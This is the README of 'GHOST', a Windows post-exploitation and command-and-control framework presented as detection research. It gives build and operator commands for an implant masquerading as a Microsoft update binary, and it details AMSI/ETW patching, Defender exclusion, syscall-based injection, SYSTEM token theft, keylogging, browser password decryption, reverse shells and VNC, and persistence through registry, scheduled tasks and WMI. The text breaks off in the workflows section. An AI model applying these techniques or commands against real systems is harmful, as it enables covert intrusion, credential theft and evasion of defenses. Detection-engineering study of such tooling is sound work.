



<div align="center">

# 👻 GHOST

### Adversary Emulation & Detection Research Framework

*A modular Windows post-exploitation framework for studying attacker tradecraft*
*and validating defensive detections in isolated, self-owned lab environments.*


</div>

---

> [!CAUTION]
> ### Authorized laboratory use only
> GHOST is an academic research project for studying Windows internals, adversary
> emulation and detection engineering inside **isolated, personally-owned lab VMs**.
>
> It builds, installs, persists, injects, captures credentials and takes control of a
> desktop. Running it against any system you do not own — or lack **explicit written
> authorization** to test — is a criminal offense in most jurisdictions. The author
> accepts no responsibility for misuse. Nothing here is a license to break the law.

---

## Contents

| | | | |
|---|---|---|---|
| [1. Overview](#1-overview) | [2. Quickstart](#2-quickstart) | [3. Architecture](#3-architecture) | [4. Implant lifecycle](#4-implant-lifecycle) |
| [5. C2 protocol](#5-c2-protocol-and-channel-security) | [6. Tradecraft internals](#6-tradecraft-internals) | [7. Persistence](#7-persistence) | [8. Operator CLI](#8-operator-cli) |
| [9. C2 server](#9-c2-server) | [10. Command reference](#10-implant-command-reference) | [11. Build guide](#11-build-guide) | [12. Configuration](#12-configuration-reference) |
| [13. Lab walkthrough](#13-lab-walkthrough) | [14. Operator workflows](#14-operator-workflows) | [15. Testing and CI](#15-testing-and-ci) | [16. MITRE ATT&CK](#16-mitre-attck-mapping) |
| [17. Detection guidance](#17-detection-guidance) | [18. Known limitations](#18-known-limitations-and-scope) | [19. Troubleshooting](#19-troubleshooting) | [20. Project layout](#20-project-layout) |
| [21. Contributing](#21-contributing) | [22. Roadmap](#22-roadmap) | [23. License](#23-license-and-permitted-use) | [24. Disclaimer](#24-disclaimer) |

---

## 1. Overview

GHOST answers one question from both directions:

> *What does modern post-exploitation tradecraft actually look like on the wire, in memory,
> and in endpoint telemetry — and can a defender see it?*

Three cooperating components make up the framework:

| Component | Tech | Responsibility |
|---|---|---|
| **Implant** | C++17 · Win32 + Native API · MinGW-w64 cross-compile | Beacon agent that demonstrates post-exploitation techniques |
| **C2 server** | Python 3.10+ · Flask REST · in-memory state | Session enrollment, task routing, payload staging, audit trail |
| **Operator CLI** | Python 3 · console + subcommands | Scriptable operator console, reverse-shell listener, JSON output |

The research value is **measurability**. Every technique is named, isolated in one module and
mapped to a MITRE ATT&CK identifier, so each capability doubles as a deterministic test case
for EDR / SIEM coverage validation.

### What GHOST is

- A **detection test generator**: run one row of the capability matrix, then check what telemetry came out.
- A **readable reference** of how modern tradecraft is implemented end to end (syscalls, injection, channel crypto, task state machines).
- A **thesis artifact**: protocol, state and crypto decisions are documented, including the ones deliberately left incomplete.

### What GHOST is not

- Not a pentest product, not a supportable red-team platform, and not a network scanner.
- Not durable infrastructure: the server holds **all state in memory** and loses sessions, results and audit history on restart.
- Not stealth-guaranteed: see [Known limitations](#18-known-limitations-and-scope) for the honest threat model, including a documented MITM gap.

---

## 2. Quickstart

Fastest path from clone to a live session. Full detail lives in [Build guide](#11-build-guide)
and [Lab walkthrough](#13-lab-walkthrough).

### Prerequisites

| Requirement | Needed for | Check |
|---|---|---|
| Linux (or WSL) + **MinGW-w64** | compiling the implant | `x86_64-w64-mingw32-g++ --version` |
| Python **3.10+** | C2 server + operator CLI | `python --version` |
| `flask`, `cryptography`, `requests`, `urllib3` | server / CLI | `pip install -r server/requirements.txt` |
| `pyOpenSSL` | **only** for `--tls` self-signed hosting | `pip install pyOpenSSL` |
| A Windows x64 lab VM | running the implant | snapshot before every run |
| Tunnel (`ngrok http 8080`) or public VPS | reachable C2 endpoint | — |

### 1 — Build the implant

```bash
sudo ./build.sh --setup                      # install the MinGW-w64 toolchain
chmod +x build.sh

# scripted (CI-friendly):
C2_HOST=your-tunnel.example.com C2_PORT=443 ./build.sh

# interactive: prompts for C2 host, port and beacon token
./build.sh
#  →  build/WindowsSecurityUpdate.exe
```

The C2 endpoint and beacon token are XOR-obfuscated and baked into the binary at compile time.
Leave the beacon token prompt **empty** to have `build.sh` generate a random one and print it —
the server must be started with the same value.

### 2 — Run the C2 server

```bash
pip install -r server/requirements.txt
python server/c2_server.py \
    --tls --auto-accept \
    --beacon-token <token-from-build> \
    --operator-token <pick-one>
ngrok http 8080
```

Dashboard: `https://localhost:8080` (login `admin` / `admin` unless overridden — change it).

### 3 — Operate

```bash
# interactive session picker (numbered table → select a row → shell)
python server/c2_cli.py --url https://your-tunnel.example.com --token <operator-token>

# or one-shot subcommands
python server/c2_cli.py sessions
python server/c2_cli.py task <sid> "!screenshot"
python server/c2_cli.py results <sid>
```

### 4 — Verify the channel

```bash
python tests/test_protocol.py     # 27 end-to-end checks against a live server
```

---

## 3. Architecture


```mermaid
flowchart LR
    subgraph OPS["🖥️ Operator side"]
        CLI["c2_cli.py<br/>console · subcommands · JSON"]
        DASH["Web dashboard<br/>sessions · tasking · audit<br/>drag-drop payload staging"]
        LIS["Reverse-shell listener<br/>c2_cli.py listen"]
    end

    subgraph INFRA["☁️ C2 infrastructure — lab VPS or ngrok"]
        SRV["c2_server.py<br/>Flask REST · ECDH + AES-GCM<br/>task queue · audit trail"]
        TUN["ngrok / TLS front"]
    end

    subgraph LAB["🪟 Lab VM — Windows x64"]
        IMPL["WindowsSecurityUpdate.exe<br/>GHOST implant"]
        VNC["VNC viewer in listen mode<br/>RFB 3.3"]
    end

    CLI -->|"X-Operator-Token"| SRV
    DASH --> SRV
    SRV === TUN
    IMPL -->|"HTTPS beacon<br/>ECDH P-256 · AES-256-GCM"| TUN
    TUN --> SRV
    IMPL -.->|"!vnc dials out"| VNC
    IMPL -.->|"!reverse dials out"| LIS
```

**Data path.** The implant polls `POST /beacon` on a jittered interval; queued tasks arrive in
the beacon response, results return via `POST /result`. Both bodies are encrypted end-to-end
between implant and server, so neither the tunnel provider nor a passive observer sees task
content. `!vnc` and `!reverse` are **dial-out** channels — the implant connects to the operator,
which is why no listener needs to be reachable from outside on the victim.

---

## 4. Implant lifecycle

`WinMain` is a supervisor; the beacon work runs on a worker thread that is restarted on crash.


```mermaid
sequenceDiagram
    participant W as WinMain (supervisor)
    participant T as ImplantThread
    participant S as C2 server

    W->>W: SpoofPEB — ImagePathName + CommandLine<br/>→ C:\Windows\System32\WindowsSecurityUpdate.exe
    W->>W: Suppress crash dialogs + disable WER reporting
    W->>W: Single-instance mutex, name derived from C: volume serial
    W->>W: SelfInstall → copy to %APPDATA%\Microsoft\WindowsUpdate<br/>hide + system attrs, spawn installed copy, schedule self-delete of original
    W->>T: CreateThread (restart loop, backoff 5s → 60s cap)
    T->>T: Sandbox check (uptime under 240 s AND fewer than 50 processes) → idle until cleared
    T->>T: DecoyLoop busy-work · InitializeSyscalls (Hell's Gate + Halo's Gate)
    T->>T: PatchAMSI · PatchETW · ClearHardwareBreakpoints
    T->>T: Defender exclusion + HKCU/HKLM Run persistence (only if elevated)
    T->>T: WMI + scheduled-task persistence on a background thread
    T->>S: POST /beacon  (fresh ephemeral ECDH keypair, X-Pub-Key)
    S-->>T: task + server public point (spk)
    T->>S: hello result — host, user, run id, elevated flag
    loop every 18–24s (jittered)
        T->>S: POST /beacon — ack previous tid, monotonic counter n
        S-->>T: next queued task
        T->>S: POST /result — status ok / error / timeout
    end
```

| Stage | Behavior worth knowing |
|---|---|
| **Instance guard** | Mutex name is built from the `C:` volume serial mixed with a compile-time constant and formatted as a fake COM GUID — one instance per machine, and no cross-machine signature. It waits 20 s for the parent to release during self-install handoff instead of self-terminating. |
| **Self-install** | Copies to `%APPDATA%\Microsoft\WindowsUpdate\WindowsSecurityUpdate.exe`, sets hidden + system, launches the installed copy, then deletes the original via a delayed `cmd /c ping & del`. If the copy fails it runs in place. |
| **Supervisor** | Any worker exit other than `0xDEAD` (clean operator `exit` / migration) is treated as a crash and restarted with exponential backoff capped at 60 s. |
| **Evasion re-apply** | AMSI/ETW patches are re-applied on every beacon pass and forcibly re-applied after a reconnect, because a restarting EDR can un-patch the process. |
| **Beacon pacing** | Immediate re-beacon after executing a task (no sleep) so command chains run back-to-back; failure backoff is `BEACON_MIN × 2^failures` capped at 30 min, shortened to 3 s while in rapid-poll shell mode. |
| **Output caps** | Text results are truncated at `CMD_OUTPUT_MAX`; screenshots and `!live` frames are exempt and allowed up to 32 MB, otherwise base64 BMPs arrive corrupted. |

---

## 5. C2 protocol and channel security

The channel is layered so that neither the tunnel provider nor a passive network observer can
read task content.

| Layer | Mechanism | Defends against |
|---|---|---|
| Transport | HTTPS via WinHTTP through an ngrok / TLS front; `WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY` first, direct as fallback | Passive LAN / ISP observers |
| Channel key | **Ephemeral ECDH P-256.** The implant generates a fresh keypair **per run** and sends its public point in `X-Pub-Key`; the server publishes its point in the beacon response (`spk`); both derive `SHA-256(ECDH)` | Key recovery from captured traffic — no key material ever crosses the wire |
| Payload | **AES-256-GCM** (BCrypt on the implant, `cryptography` on the server), wire format `Base64(nonce[12] ‖ tag[16] ‖ ciphertext)` | TLS-terminating middleboxes reading task traffic |
| Auth | Constant-time comparison (`secrets.compare_digest`) on `X-Beacon-Token` / `X-Operator-Token` | Beacon injection and unauthenticated tasking |
| Protocol mimicry | User-Agent `Microsoft-WNS/10.0` (Windows Notification Service) on every beacon | Casual flow analysis that fingerprints beacon libraries |

### Request shape

| Header / field | Direction | Purpose |
|---|---|---|
| `X-Beacon-Token` | implant → server | Shared build-time secret; authenticates the agent |
| `X-Session-ID` | implant → server | Stable id: `hostname-hash \| username` |
| `X-Pub-Key` | implant → server | Base64 X‖Y of the run's ephemeral P-256 public point |
| `spk` | server → implant | Server public point — completes / re-establishes the handshake |
| `cmd`, `tid` | server → implant | Task payload and server-generated task id |
| `n` | both directions | Monotonic per-session message counter used for replay rejection |
| `ack` | implant → server | Confirms the task id that was executed on the previous beacon |

### Task delivery and integrity (protocol v2)


```mermaid
stateDiagram-v2
    [*] --> queued : operator POST /task
    queued --> sent : served in beacon response
    sent --> queued : not acked → re-serve (at-least-once)
    sent --> acked : implant acks tid
    acked --> done : result received
    done --> [*]
    sent --> sent : duplicate result → deduped
```

| Property | Mechanism |
|---|---|
| Agent identity | Stable session id **plus** a per-run id (8 hex from `BCryptGenRandom`), so individual implant runs are distinguishable in the session list |
| Task lifecycle | Every operator task gets a server-generated `tid` and moves `queued → sent → acked → done` |
| Acknowledgement | The implant acks the executed `tid` in its next beacon; the ack is visible in the audit trail |
| Retry | At-least-once delivery — an unacknowledged task is re-served on a later beacon |
| Duplicate protection | The implant remembers the last 32 task ids and answers retries with `"[duplicate task - result already delivered]"`; the server deduplicates retransmitted results |
| Integrity | GCM authentication tag over every payload |
| Replay protection | Receivers reject a non-advancing `n`; the counter re-baselines only on a fresh handshake |
| Status reporting | Results carry machine-readable status: `ok` / `error` / `timeout` |
| Auditability | Append-only, capped in-memory audit trail (14 event types — [full list](#audit-events)) |

### Self-healing on server restart

Rotating the server restarts its ECDH keypair and clears in-memory state. The next encrypted
beacon is answered with a **plaintext re-handshake** response carrying a fresh server point;
the implant adopts the new key within one beacon interval with no operator action.

---

## 6. Tradecraft internals

Each mechanism is isolated in one module so it can be enabled, disabled and measured independently.

### Direct syscalls — `syscalls.cpp`

**Hell's Gate + Halo's Gate.** `ntdll.dll` is read **from disk** (bypassing the hooked in-memory
copy), its PE export table is parsed, and syscall numbers are pulled out of stub bytes with the
`4C 8B D1 B8 <ssn>` pattern. Exports are sorted by RVA, because syscall numbers are contiguous
in RVA order — that is what makes **Halo's Gate** work: if a target stub is hooked (a `E9` /
`FF 25` jump at entry), neighbouring exports are scanned up to ±60 slots and the number is
recomputed by delta. Numbers are then written into freshly allocated RX trampoline stubs.

All eleven entries are resolved through **`RESOLVE_OPT`**: a number that cannot be found is skipped
silently, and each injection helper tests its slot and falls back to the Win32 equivalent
(`OpenProcess`, `VirtualAllocEx`, `WriteProcessMemory`, `VirtualProtectEx`) when it is null. A
strict `RESOLVE` macro — any miss aborts initialization — exists for hard-critical entries but is
not currently used, so `InitializeSyscalls` only fails outright when ntdll can neither be read from
disk nor mapped from the loaded module, or its export table will not parse. `WinMain` retries the
initialization five times, five seconds apart, then lets the thread return so the supervisor
restarts it.

Stub bytes are an 11-byte `mov r10,rcx / mov eax,<ssn> / syscall / ret` written into a single
`VirtualAlloc` pool that is flipped to `PAGE_EXECUTE_READ` and icache-flushed after the last stub
lands. If the on-disk read fails, ntdll is mapped from the loaded module as a fallback view —
visible hooks are then handled by Halo's Gate instead.

### API and string resolution — `obfuscate.hpp`

| Primitive | Effect |
|---|---|
| `XS("...")` / `XSW(L"...")` | Compile-time XOR-encrypted narrow/wide strings, decrypted on first use |
| Rotating 4-byte key | `GHOST_K0..K3` — defeats single-byte XOR inversion by naive AV unmatchers; change before each build |
| `FNV("WinHttpOpen")` | Compile-time FNV-1a 32-bit hash — no API name strings in `.rdata` |
| `HashProc` / `HASHPROC` | Resolves exports by walking the **PEB loader links**, not `GetProcAddress` |

Net effect: `strings` on the binary yields no URLs, no API names and no PowerShell fragments.

### Defense impairment — `evasion.cpp`

- **AMSI**: `AmsiScanBuffer`, `AmsiScanString`, `AmsiOpenSession` patched to `xor eax,eax; ret`.
  Patch bytes are **computed at runtime** (`MakePatch3`) so no `33 C0 C3` / `C3` pattern exists in `.rdata`.
- **ETW**: `EtwEventWrite`, `EtwEventWriteFull`, `EtwEventWriteEx`, `EtwEventWriteTransfer`,
  `EtwEventActivityIdControl`, `EtwEventRegister`, `EtwEventUnregister` patched to `ret`.
- **Hardware breakpoints**: debug registers cleared through `NtQuery/NtSetInformationThread` — anti-instrumentation.
- **Memory patching** goes `NtProtectVirtualMemory` → write → `FlushInstructionCache` → restore, with a `VirtualProtect` fallback.
- **Microsoft Defender exclusion** is attempted only when elevated; tamper-protection changes require SYSTEM/TrustedInstaller, which the token-steal path can provide.
- **Sandbox check**: uptime under 240 s **and** fewer than 50 processes ⇒ assumed automated analysis, and the implant idles instead of executing. Disabled in `DEBUG` builds.
- **Sleep evasion**: `SetThreadExecutionState(ES_CONTINUOUS | ES_SYSTEM_REQUIRED | ES_AWAYMODE_REQUIRED)` while beaconing, released before each idle sleep.

### Masquerading — `resources/`, `main.cpp`

| Surface | Value |
|---|---|
| File / path | `WindowsSecurityUpdate.exe` in `%APPDATA%\Microsoft\WindowsUpdate` (PEB spoof shows `C:\Windows\System32\…`) |
| Version resource | `Microsoft Corporation`, `Windows Security Update Service`, `10.0.22621.2506 (WinBuild.160101.0800)` — matches what Sigcheck/PE-bear show on real System32 binaries |
| Manifest | `asInvoker` (no UAC prompt), PerMonitorV2 DPI, Win7 → Win11 compatibility GUIDs, assembly name `Microsoft.Windows.SecurityUpdateService` |
| PEB | `ImagePathName` and `CommandLine` Unicode strings overwritten — Task Manager and PEB-reading tools show the fake path |
| PE timestamp | Randomized to a 2018–2024 value at build time (release only) |
| Release binary | `-static`, stripped, `.comment`/`.note` removed, `--gc-sections`, ASLR + high-entropy VA + NX preserved |

### Injection — `injection.cpp`

- **Remote-thread chain** over direct syscalls: `NtOpenProcess` → `NtAllocateVirtualMemory` →
  `NtWriteVirtualMemory` → `NtProtectVirtualMemory` → `NtCreateThreadEx`.
- **APC injection**: the target's threads are enumerated with a Toolhelp snapshot and opened
  through a hash-resolved `OpenThread` (`THREAD_SET_CONTEXT | SUSPEND_RESUME | QUERY_INFORMATION`);
  the shellcode is allocated, written and re-protected remotely, then queued with
  `NtQueueApcThread` between `NtSuspendThread` and `NtResumeThread`. The first thread that accepts
  the APC wins; the whole path returns failure cleanly if the three native thread syscalls did not
  resolve.
- **PPID spoofing**: `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` on `CreateProcessW` so a new process
  appears as the child of a legitimate long-running service host instead of the implant —
  `!migrate` uses it to parent a fresh copy of itself.
- **Migration**: `!migrate [pid]` spawns a **second copy of the implant** under the chosen parent
  (default: the lowest-PID `svchost.exe` running as SYSTEM, found by token SID), sets a
  `__GHOST_SPAWNED` sentinel so the child skips the instance-mutex check, then exits with `0xDEAD`
  so the parent releases the mutex and the child takes over the session.

### Capture modules

| Module | Implementation |
|---|---|
| `keylog.cpp` | `WH_KEYBOARD_LL` hook on a dedicated pumped thread; `ToUnicode` for dead keys/shift, common VKs mapped to tokens (`[BS]`, `[ESC]`, `[PGU]`…), bare modifiers ignored, circular buffer capped at 64 K chars, mutex-guarded |
| `!screenshot` | GDI capture to a 32 bpp DIB, BMP with `[SCREENSHOT:BMP]` marker, streamed base64; optional scale factor |
| `vnc.cpp` | **Reverse VNC**: dials `host[:port]` (default 5500) and serves RFB **3.3** with *None* auth; 32×32 changed-tile encoding, `SendInput` replay for keyboard/mouse. Because the implant is the connector, the operator side must be **listening** — a viewer in reverse/listen mode, or an ngrok TCP endpoint in front of one. Non-blocking connect with a 5 s cap so a dead endpoint cannot stall the beacon |
| `!live` / `!input` | Beacon-paced remote control: one task returns a scaled frame and optionally injects normalized mouse coordinates (`!input m <nx> <ny> <btns>`) or a virtual-key event (`!input k <vk> <down>`), enabling browser-based interactive control from the dashboard |
| `!browser` | Edge / Chrome saved-password recovery (T1555.003) using **stock Windows only**: `winsqlite3.dll` reads a copy of `Login Data`, `os_crypt` master key from `Local State` is DPAPI-unprotected, then AES-256-GCM (bcrypt) on `v10`/`v11` blobs with plain-DPAPI fallback for pre-v80 rows. Chrome ≥ 127 `v20` app-bound entries are **detected and reported as not recoverable**. The PowerShell payload is embedded as XOR chunks generated from `tests/browser_dump.ps1` |
| `!clipboard` | Read/write clipboard text |

---

## 7. Persistence

Three vectors are installed at startup; WMI and Task Scheduler run on a background thread
because `IWbemServices::ConnectServer` can block indefinitely on a busy WMI provider.

| Vector | Artifact | Elevated behavior |
|---|---|---|
| Registry Run key | `…\CurrentVersion\Run` value pointing at the installed copy | Always writes `HKCU`; additionally writes `HKLM` when elevated |
| Scheduled task | `MicrosoftEdgeUpdateTaskUser` | `/RL HIGHEST /SC ONSTART` when elevated, `/RL LIMITED /SC ONLOGON` otherwise |
| WMI event subscription | Permanent consumer + filter (and a second script-based consumer) | Names follow the fake Microsoft-component pattern |

`!uninstall` reverses all three — Run values (HKCU and, if elevated, HKLM), the scheduled task,
and the WMI consumer/filter/binding — then exits cleanly. Install and removal are symmetric, so
a lab run can be left exactly as it was found.

---

## 8. Operator CLI

`server/c2_cli.py` runs as an interactive console or as one-shot subcommands.
Configuration precedence (highest first): **CLI flags → environment → `~/.ghost/operator.json`**.

| Invocation | Effect |
|---|---|
| `c2_cli.py` | Interactive numbered session picker; select a row to attach a shell |
| `c2_cli.py sessions [--json]` | Session table: id, IP, last beacon, idle, host, elevation, queue depth, results |
| `c2_cli.py shell <sid>` | Attach a shell — background result poller (2 s), Braille spinner while waiting, 90 s result timeout |
| `c2_cli.py task <sid> <cmd>` | Queue one command |
| `c2_cli.py batch <sid> "c1;c2;…"` | Queue several commands in one call |
| `c2_cli.py results <sid> [--clear] [--all] [--json]` | Read (and optionally drain) stored results |
| `c2_cli.py export <sid> [file]` | Dump all results to `ghost_<sid8>_<ts>.txt` |
| `c2_cli.py kill <sid>` | Queue exit and remove the session |
| `c2_cli.py audit [--limit N] [--json]` | Operator audit trail |
| `c2_cli.py watch [--interval N]` | Full-screen live session list with new-session notifications |
| `c2_cli.py payload upload <file>` | Stage a binary for `!getfile` retrieval |
| `c2_cli.py listen [--port <p>]` | Local listener for `!reverse` dial-out shells (**default 4444**) |
| `c2_cli.py config show` / `config set --url --token --proxy` | Inspect / persist operator config |
| `c2_cli.py ping` | Server reachability + live node count |

Global flags: `--url`, `--token`, `--proxy`, `--ssl-verify`, `--verbose`, `--json`.
Environment: `GHOST_C2_URL`, `GHOST_OPERATOR_TOKEN`, `GHOST_PROXY`.

Inside `shell`, `bg` or Ctrl-C backgrounds the session (it is **not** killed) and `exit` kills it.
Readline history persists to `~/.ghost/history` with tab completion on the common commands, where
available. The CLI rotates realistic browser User-Agents per request and disables TLS-warning noise
by default; pass `--ssl-verify` when the server has a real certificate.

> **Port pairing.** `!reverse` defaults to port **443** while `listen` defaults to **4444**, so the
> two only meet if you say so explicitly: `listen --port 443` (needs a free privileged port) or
> `!reverse <operator-ip>:4444`.

---

## 9. C2 server

```bash
python server/c2_server.py [--config ghost.json] [--tls] [--auto-accept] \
    [--host 0.0.0.0] [--port 8080] \
    [--beacon-token T] [--operator-token T] [--user U] [--password P]
```

| Endpoint | Auth | Purpose |
|---|---|---|
| `POST /beacon` | beacon token | Check-in; returns next task and, during handshake/recovery, the server public point |
| `POST /result` | beacon token | Task output delivery (deduped, replay-checked) |
| `GET /sessions` | operator token | Session list with idle time, queue depth and recon |
| `POST /sessions/<sid>/accept` · `/reject` | operator token | Enrol or drop a new agent (unless `--auto-accept`) |
| `DELETE /sessions/<sid>` | operator token | Kill a session |
| `POST /task` | operator token | Queue a command, returns `tid` and `queue_depth` |
| `GET /results/<sid>[?clear=1]` | operator token | Read / drain stored results |
| `POST /payload` · `GET /payload` | operator / beacon | Binary staging for implant-side retrieval |
| `GET /audit?limit=` · `POST /audit/clear` | operator token | Audit trail |
| `POST /auth` · `GET`/`POST /logout` | dashboard form login | Web dashboard session |
| `GET /dashboard` | — | Dashboard HTML (served at `/` too) |
| `GET /health` · `GET /ping` | — | Liveness / node count |

Background behavior: a **janitor** thread prunes sessions idle beyond `session_ttl` every 300 s,
and a status printer reports live/pending node counts. All CORS preflight is answered from one
place so the dashboard and CLI can talk to the same origin.

### Audit events

Every operator and agent action is appended to a capped in-memory trail with timestamp, client IP,
action and detail. Fourteen event types, all of them emitted by named code paths in
`server/c2_server.py`:

| Fires when | Events |
|---|---|
| Tasking | `task_queued` · `task_sent` · `task_ack` |
| Results | `result` · `result_dup` · `get_results` |
| Channel integrity | `replay_rejected` · `beacon_rehandshake` |
| Enrollment and lifecycle | `session_accepted` · `session_rejected` · `kill_session` |
| Payload staging | `payload_uploaded` · `payload_downloaded` |
| Authentication | `auth_fail` |

The trail is the primary artifact for the thesis: it proves at-least-once delivery, dedup and
rejection behavior without packet captures.

---

## 10. Implant command reference

Anything not matched by the table below is executed in a **persistent `cmd.exe` shell** — the
implant owns the shell state, so the working directory and `set` variables survive across tasks
(`cd` is intercepted and tracked; a deleted cwd resets and retries).

| Command | Description |
|---|---|
| `<any shell command>` | Persistent cmd.exe; `cd X`, bare `D:` and `set VAR=v` carry over to the next task |
| `ps` / `!ps` | Process listing |
| `ps1 <line>` · `psreset` | Persistent interactive PowerShell session; restart it |
| `!screenshot [scale]` | Full-screen capture, BMP streamed as base64 |
| `!vnc <host[:port]>` | **Reverse VNC** — dials out (default port 5500); have a viewer listening in **reverse/listen mode** before tasking (RFB 3.3, no auth) |
| `!live [scale]` · `!input m <nx> <ny> <btns>` · `!input k <vk> <down>` | Beacon-paced live frame / synthetic mouse and keyboard input |
| `keylog_start` · `keylog_dump` · `keylog_stop` | Keystroke capture lifecycle |
| `!clipboard [get\|set <text>]` | Clipboard read / write |
| `!browser` | Edge/Chrome saved-password recovery (see [capture modules](#6-tradecraft-internals)) |
| `download <url> <dest>` | Fetch a file on the implant |
| `upload <src> <dest>` | Stage a local file for operator retrieval |
| `!files [path]` · `!getfile <path>` | Directory listing / pull a staged file through `/payload` |
| `!inject <pid> <hex bytes>` | Load raw shellcode into a process via the direct-syscall remote-thread chain |
| `!inject-apc <pid> <hex bytes>` | Same payload, delivered as an APC to one of the target's threads |
| `!migrate [pid]` | Re-spawn the implant as a PPID-spoofed child of `pid` (default: a SYSTEM `svchost.exe`) and exit cleanly |
| `steal_token` | Locates `winlogon.exe`, duplicates its primary token and impersonates SYSTEM (**no arguments**) |
| `!reverse <ip[:port]>` | Reverse TCP shell, default port 443 → pair with `c2_cli.py listen` |
| `!kill <pid>` | Terminate a process |
| `!env` · `!getpid` | Environment block dump / implant PID |
| `!shell [off]` | Rapid-poll mode: beacon drops to 1 s for interactive use; `!shell off` restores the default interval |
| `sleep <sec>` | Override the beacon interval |
| `!uninstall` | Remove all persistence vectors and exit cleanly |
| `exit` | Clean shutdown (worker returns `0xDEAD`, supervisor stops restarting) |

> **Visibility demos.** `!prank <text>` / `!prank off` swap the wallpaper and drop a desktop
> `READ_ME` note; `!popups [text]` / `!popups off` shows demo popups. Both exist purely to show an
> audience that the operator held full desktop control, are fully reversible, touch no files beyond
> a wallpaper bitmap and a text note, and are **outside** the ATT&CK-mapped research scope.

---

## 11. Build guide

### One-time toolchain

```bash
sudo ./build.sh --setup     # apt / dnf / pacman are all detected
chmod +x build.sh           # if cloned without the exec bit
```

Windows hosts can build the same way under WSL; the implant itself only *runs* on Windows x64.

### Build modes

```bash
./build.sh                 # release: -O2, _FORTIFY_SOURCE=2, stripped, PE timestamp randomized
./build.sh --debug         # -O0 -g3 -DDEBUG -DGHOST_DEBUG: verbose debug log, sandbox checks off
./build.sh --clean         # remove build/
```

| Stage | Detail |
|---|---|
| Resource compile | `windres resources/ghost.rc` → version info, manifest, embedded `wall.jpg` as `RCDATA` |
| Compile | C++17, `UNICODE`, `_WIN32_WINNT=0x0A00`, `-fno-rtti`, function/data sections, `-fstack-protector-strong`, static libstdc++/libgcc |
| Link | `-Wl,--gc-sections --nxcompat --dynamicbase --high-entropy-va` against `ntdll ws2_32 user32 advapi32 ole32 oleaut32 wbemuuid bcrypt crypt32 winhttp dnsapi shlwapi gdi32 shell32` |
| Post | `strip --strip-all` + remove `.comment`/`.note`; randomize the PE `TimeDateStamp` |

The build is warning-clean under `-Wall -Wextra` (a few specific warnings are silenced deliberately);
CI fails if it stops being so. Output is a single `build/WindowsSecurityUpdate.exe`.

---

## 12. Configuration reference

No operational value is hard-coded at a call site — implant values are set at build time, and
server values route through one config dictionary.

### Implant (build-time macros / `build.sh` inputs)

| Knob | Purpose | Default |
|---|---|---|
| `C2_HOST` / `C2_PORT` | C2 endpoint baked into the binary | prompted; port 443 |
| `GHOST_BEACON_TOKEN` | Implant→server shared secret (server must match) | prompted; enter blank to generate and print a random one |
| `GHOST_BEACON_MIN` / `GHOST_BEACON_MAX` | Jitter bounds, seconds (validated `3 ≤ min ≤ max`) | 18 / 24 |
| `GHOST_C2_HOST` / `GHOST_C2_PORT` / `GHOST_BEACON_TOKEN_W` | Raw `-D` macros the script emits | set by `build.sh` |
| `GHOST_K0..K3` (`obfuscate.hpp`) | Rotating XOR key — change per campaign build | `A7 3E C1 58` |
| `CMD_OUTPUT_MAX` / `CMD_TIMEOUT_MS` | 65536 chars of text result before truncation / 30 s per command | `include/config.hpp` |
| `MAX_FAILURES` / `BACKOFF_FACTOR` | 5 / 3 — declared for reference; the live beacon backoff is computed in `src/c2.cpp` as `BEACON_MIN × 2^failures`, capped 30 min | `include/config.hpp` |

### Server

```bash
python server/c2_server.py --config ghost.json --tls
```

```json
{
  "beacon_token":   "set-me",
  "operator_token": "set-me",
  "dashboard_user": "admin",
  "dashboard_pass": "set-me",
  "auto_accept":    false,
  "result_cap":     500,
  "audit_cap":      1000,
  "session_ttl":    7200,
  "task_queue_max": 64,
  "payload_max":    33554432
}
```

Precedence: **built-in defaults < `--config` file < environment < CLI flags.**
Only `GHOST_BEACON_TOKEN`, `GHOST_OPERATOR_TOKEN`, `GHOST_DASHBOARD_USER` and
`GHOST_DASHBOARD_PASS` are read from the environment; caps and TTLs come from the config file,
and CLI flags win over both. Unknown keys in the config file are rejected rather than ignored.

| Default | Value | Note |
|---|---|---|
| `beacon_token` / `operator_token` | `change-me-beacon` / `change-me-operator` | **Change before running** — defaults are published in this file |
| `dashboard_user` / `dashboard_pass` | `admin` / `admin` | Dashboard login only |
| `result_cap` / `audit_cap` | 500 / 1000 | Ring-buffer sizes; oldest entries are dropped |
| `session_ttl` | 7200 s | Janitor prunes idle sessions |
| `task_queue_max` | 64 per session | Refuses unbounded tasking |
| `payload_max` | 32 MiB | Also raises Flask `MAX_CONTENT_LENGTH` by 4 KiB of headroom |

> Secrets rotate at runtime with `--beacon-token` / `--operator-token` / `--password`.
> Changing the beacon token invalidates already-built implants — rebuild to match.

---

## 13. Lab walkthrough

1. **Isolate.** Dedicated hypervisor network (host-only or VLAN), no production credentials, a
   clean snapshot before every run, and packet capture (`tcpdump`/`rkavd`/Wireshark) on the lab segment.
2. **Build.** `C2_HOST=<tunnel> ./build.sh`, note the beacon token it prints.
3. **Serve.** Start `c2_server.py --tls --beacon-token <…> --operator-token <…>`, expose via `ngrok http 8080`.
   Enable TLS because the implant always speaks HTTPS; skip `--auto-accept` to practice enrollment.
4. **Detonate.** Copy the implant into the lab VM and run it as the account you want to observe
   (`asInvoker` — no UAC prompt; run elevated to exercise the elevated persistence and Defender paths).
5. **Emulate.** Walk the [capability matrix](#16-mitre-attck-mapping) row by row, one technique per task.
6. **Collect.** Sysmon + ETW + `procmon` + PCAP for each technique; drain results with `export`.
7. **Detect.** Write or validate SIEM rules against the telemetry. Record what fired and what stayed silent.
8. **Report.** Every technique carries an ATT&CK id, so results roll straight into a coverage matrix.
9. **Clean up.** `!uninstall`, then restore the VM snapshot.

---

## 14. Operator workflows

**First session of a run (manual enrollment).**

```bash
python server/c2_cli.py --url https://<tunnel> --token <operator-token> watch
python server/c2_cli.py sessions                       # note the new pending id
python server/c2_cli.py shell <sid>                    # after accepting in the dashboard
```

**Interactive shell with fast turnaround.**

```text
ghost(3f9a1c22)> !shell                # beacon drops to 1s
ghost(3f9a1c22)> cd C:\Users\lab
ghost(3f9a1c22)> set WHO=me
ghost(3f9a1c22)> echo %WHO%            # state survived across tasks
ghost(3f9a1c22)> !shell off
```

**Detection test batch, then export.**

```bash
python server/c2_cli.py batch <sid> "ps;!screenshot;keylog_start;!clipboard"
sleep 60
python server/c2_cli.py results <sid> --json > run_01.json
python server/c2_cli.py audit --limit 200 --json >> run_01.json
```

**Reverse shell + desktop.**

```bash
python server/c2_cli.py listen --port 4444 &      # operator listener
